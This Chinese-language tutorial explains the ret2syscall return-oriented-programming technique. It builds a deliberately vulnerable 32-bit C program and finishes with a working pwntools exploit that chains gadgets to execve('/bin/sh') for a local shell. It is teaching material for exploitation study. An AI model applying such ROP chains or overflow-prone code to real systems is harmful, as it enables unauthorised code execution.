 ```yaml
---
title: "ret2syscall"
description: ""
lead: ""
date: 2023-03-28T21:07:32+08:00
lastmod: 2023-03-28T21:07:32+08:00
draft: false
images: []
menu:
  docs:
    parent: "stackoverflow"
    identifier: "ret2syscall-0eacdc5627a9d644483a912a87526e3d"
weight: 2
toc: true
---
```


## 0x01 介绍

### 系统调用

syscall又称为系统调用，是操作系统给用户的API接口，可以用来使用电脑资源。首先需要来熟悉系统调用的使用方式，对于32程序来说是通过 `int 0x80` 指令来执行系统调用，而64位程序则是通过 `syscall` 指令来执行。在执行命令前，需要把参数和系统调用号准备好，系统调用号是操作系统分配给不同系统调用的一个数字，以便内核区分它们，我们可以在 `/usr/include/asm/unistd.h` 找到32位和64位的系统调用号分别存储的文件

![bd451c85c8cfb9e7a7d71f72d4318dcd](images/bd451c85c8cfb9e7a7d71f72d4318dcd.png)  

我们可以看一下32位的系统调用号

![34359385b45288b164e6531b2dc74bcf](images/34359385b45288b164e6531b2dc74bcf.png)  

前部分是系统调用名称，比如 `__NR_read` 就是read系统调用，而后半部分就是系统调用号，都是数字，例如 `3` 就是read的系统调用号0。64位的系统调用号也是同理。

当执行内陷指令之前，需要将系统调用号传入ax寄存器中。其次需要在执行内陷指令前要做的就是传递参数给内核，这里不管是32位还是64位的程序都必须用寄存器来传递参数。对于32位来说，参数寄存器的传递顺序是 `ebx、ecx、edx、esi、edi` ，对于64位来说顺序为 `rdi、rsi、rdx、rcx、r8、r9` 。我们以内联汇编的形式来实现一个简单的系统调用

```c
char *buf = "hello world\n";
void main();
asm(
    ".text\n"
    ".global main\n"
    "main:\n"
    // write(1, "hello world\n", 12)
    "mov ebx, 1\n"    // 第一个参数，标准输出流
    "mov ecx, buf\n"    // 第二个参数，字符串地址
    "mov edx, 12\n"    // 第三个参数，输出字节数
    "mov eax, 4\n"    // write的系统调用号
    "int 0x80\n"    // 内陷指令
);
// gcc test.c -o test -m32 -masm=intel
```

运行效果为

![c0fa4df1d7b98a107b9db88fc1f73c30](images/c0fa4df1d7b98a107b9db88fc1f73c30.png)  

### ret2syscall

而ret2syscall它要完成的就是去调用某个系统调用来完成getshell的操作。ret2syscall作为ROP系列之一，它的核心还是溢出，不过它的难点就在于溢出后的步骤。之前的ret2text是直接返回到程序中已有的getshell代码片段，ret2syscall则没有现成的getshell代码片段出现，它获取shell的方式是通过多个代码片段之间的跳转执行，我们称这多个代码片段组成的类似于链状的执行过程称为ROP链。大概流程如下

![04f861564255fd35278467fc20a8b9d0](images/04f861564255fd35278467fc20a8b9d0.png)  

大概来解释这幅图，首先当执行到函数的ret指令时，ret会跳转到当前栈顶指向的代码处执行，并将当前栈顶移动到下一个栈单元，这里我们将其覆盖成了修改参数寄存器代码片段的地址，接下来一段时间都会去执行修改参数寄存器的操作，直到执行到代码片段的ret指令，对于这条ret指令来说其跳转的地址就是图中第一条虚线即修改ax寄存器的代码片段的地址（应为当前栈顶就是该栈单元），接着就会去执行修改ax寄存器的代码，直到执行到其ret指令处，对于它的ret指令来说返回地址是第二条虚线即内陷指令地址，最后跳转执行内陷指令后即可获取到shell。当然实际情况可能会比这个复杂很多。

对于ret2syscall来说有几个代码片段是必须要有的，首先就是内陷指令片段，正常的程序一般不会有内陷指令，如果有内陷指令的题目大概路就是ret2syscall的方式去解决。其次就是控制ax寄存器的指令，只有控制了ax寄存器才可以设定我们想要的系统调用号。最后就是设定参数的代码片段，每个参数寄存器必须设置为指定的值，否则大概率都是执行失败。

我们以一个例子来说

```c
#include<stdio.h>
char *bin_sh = "/bin/sh";
void hint();
asm(
    ".text\n"
    ".global hint\n"
    "hint:\n"
    "inc eax\n"
    "ret\n"
    "xor eax, eax\n"
    "xor ebx, ebx\n"
    "xor ecx, ecx\n"
    "xor edx, edx\n"
    "ret\n"
    "int 0x80"
);

void run() {
    char buf[0x10];
    printf("input: ");
    scanf("%s", buf);
}

int main() {
    run();
    return 0;
}
// gcc ret2syscall.c -o ret2syscall -no-pie -fno-pic -fno-stack-protector -m32 -masm=intel
```

这里我们以内联汇编的方式写了一些必要的代码片段以完成ret2syscall的操作。在ret2syscall中获取shell的系统调用只有一种即 `execve` 系统调用，它的作用就是执行一个新的程序。execve接收三个参数，第一个参数是程序名称，第二个参数是给程序的参数，第三个参数是环境参数，对于shell来说只需要第一个参数设置为 `/bin/sh` 即可，后两个为null即0就行。

首先是找到修改参数寄存器的代码片段，在上面的源文件中可以很明显看到有 `xor ecx, ecx; xor edx, edx` 这两条指令可以完成第二、三两个参数寄存器的设置。而对于第一个参数寄存器的设置则需要通过其他指令来完成，通常寻找的是 `pop ebx; ret` 代码片段，该代码片段会将当前栈顶的值弹出存入到ebx中并返回下一个栈单元，如果我们在栈顶存入 `/bin/sh` 字符串地址则可以直接完成第一个参数寄存器的设置

![232fb5b32f5452ad8a9d67414334b4c5](images/232fb5b32f5452ad8a9d67414334b4c5.png)  

所有的参数寄存器都执行完成后即可对ax寄存器进行设置，这里存在一个 `inc eax; ret` 代码片段，它可以对eax进行加一的操作，我们只要多次执行这个代码片段直到ax寄存器为execve系统调用号的值就行。最后既可以跳转去执行内陷指令获取shell了。所以整个的栈布局为

![04f411c8c99c68955cdbe5866de7210e](images/04f411c8c99c68955cdbe5866de7210e.png)  

建议可以调试看看具体的ROP链执行过程

然后我们需要找出这些代码片段的地址，这里可以使用 `ROPgadget` 工具来查找

![0bb4220de7d1cd13dbbce3991431580b](images/0bb4220de7d1cd13dbbce3991431580b.png)  

![55b4ddbfa236719c41cc04708c4239b8](images/55b4ddbfa236719c41cc04708c4239b8.png)  

![8748ec9f9380ccc2ff4d633953cc64c8](images/8748ec9f9380ccc2ff4d633953cc64c8.png)  

![b6936a41caea9de420af66aafac841ad](images/b6936a41caea9de420af66aafac841ad.png)  

而execve的系统调用号在文件中可以查到为 `11` ，通过调试我们可以知道当run函数执行到ret指令的时候eax寄存器的值为1。

![4bffa0dbc1505963a34132bb1f4b608b](images/4bffa0dbc1505963a34132bb1f4b608b.png)  

所以inc指令只需要执行10次即可。最终可以写出Exploit

```python
from pwn import*
o = process("./ret2syscall")
bin_sh = 0x8048550    # /bin/sh字符串地址
pop_ebx = 0x8048311    # pop ebx;ret代码片段地址
xor_ret = 0x8048471    # xor ecx, ecx;xor edx, edx;ret代码片段地址
int_80 = 0x8048476    # int 0x80代码片段地址
inc_eax = 0x804846b    # inc eax;ret代码片段地址
payload = b'a'*28    # 填充局部变量和函数返回地址之间的空隙
payload += p32(pop_ebx) + p32(bin_sh)    # 设置第一个参数寄存器
payload += p32(xor_ret)    # 设置第二三个参数寄存器
payload += p32(inc_eax)*10   # eax累加到11
payload += p32(int_80)    # 执行系统调用
o.sendline(payload)
o.interactive()
```

![aa241111f472d5e8dc9d1eed30c466bc](images/aa241111f472d5e8dc9d1eed30c466bc.png)

